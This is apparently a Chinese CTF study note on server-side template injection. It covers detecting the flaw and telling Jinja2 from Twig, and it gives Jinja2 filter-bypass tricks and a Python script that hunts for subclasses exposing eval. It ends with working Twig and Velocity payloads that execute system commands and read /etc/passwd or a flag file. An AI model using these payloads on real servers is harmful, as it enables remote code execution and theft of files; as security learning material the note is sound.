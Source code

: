 # ssti

## 思考方法 

### 检测

#### 直接将输入当成模板进行渲染

如

```python
reander_string(s);
```



#### 嵌入已有模板中

`reander_string("{{'hello,'+'"+s+"'}}");`

### 确认模板引擎



![image.png](http://ww1.sinaimg.cn/large/006pWR9aly1g8odw94ktrj31360mxjtz.jpg)

红色代表命令未执行,绿色代表命令成功执行

在twig中,{{7*'7'}}=>49

而在jinja2中{{7*'7'}}=>7777777




### 利用

#### 阅读文档

前两部都是为了确定阅读什么文档,文档中有利于我们接下来利用的提示。

在阅读文档的时候留意以下部分

-  'For Template Authors' 部分的基本语法
-  'Security Considerations' - 开发者通常没有阅读这一部分 ，在这个部分可能会包含一些对利用有用的提示
-  内置的方法,函数,过滤器和变量
- 留意默认加载的扩展和插件



#### 探索

- 记录下阅读文档时发现的可利用点。
- 接下来就是爆破获得sandbox中默认包含的对象方法和变量(作者推荐fuzzDB?)。
- 很多模板默认包含类似self的变量,可以尝试找一找。
- 开发者提供的对象通常具有敏感信息

#### 攻击

冲



## 一些有用的东东

`__dict__和dir()`获得 模块对象名称空间的变量,函数,类等等

### python 魔术方法文档

 https://pyzh.readthedocs.io/en/latest/python-magic-methods-guide.html#id1 









## jiaja2

http://docs.jinkan.org/docs/jinja2/templates.html



### 前置知识

#### 过滤器

变量可以通过 **过滤器** 修改。过滤器与变量用管道符号（ `|` ）分割，并且也 可以用圆括号传递可选参数。多个过滤器可以链式调用，前一个过滤器的输出会被作为 后一个过滤器的输入。

过滤器清单:http://docs.jinkan.org/docs/jinja2/templates.html#builtin-filters





### 一些绕过

- 禁用{{,则可以利用{%

- 禁用__,用

  ```
  {{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')}}
  ```

  来绕过

- 禁用(),用魔术方法绕过

- 禁用+号可以用`~`来代替





### 一些特性

1. 未定义的变量会被jiaja视为Undefined对象：

```
{{bbbb.__class__}}
<class 'jinja2.runtime.Undefined'>
```

2. jiaja模板中也可以用[]来访问属性

   ```python
   {{request['__class__']}}
   ```

3. 





### 默认存在的变量

 https://dormousehole.readthedocs.io/en/latest/templating.html 



## ssti爆破脚本

```python
#!/usr/bin/env python
# encoding: utf-8
import flask 
import os
cnt=0
for item in "".__class__.__mro__[-1].__subclasses__():
    try:
        cnt2=0
        for i in item.__init__.__globals__:
            if 'eval' in item.__init__.__globals__[i]:
                print(cnt,item,cnt2,i)
            cnt2+=1
        cnt+=1
    except:
        #print("error",cnt,item)
        cnt+=1
        continue
```



## twig

### 收藏

 [https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/#2-Twig](https://www.k0rz3n.com/2018/11/12/一篇文章带你理解漏洞之SSTI漏洞/#2-Twig) 

### payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```



```
{{app.request.request.get('name')}}
{{app.request.query.filter(0,0,1024,{'options':'system'})}} 
{{'/etc/passwd'|file_excerpt(1,30)}}

```



## Velocity

### payload

```
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('cat /tmp/flag_1s_s000e4syyy223')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```



## 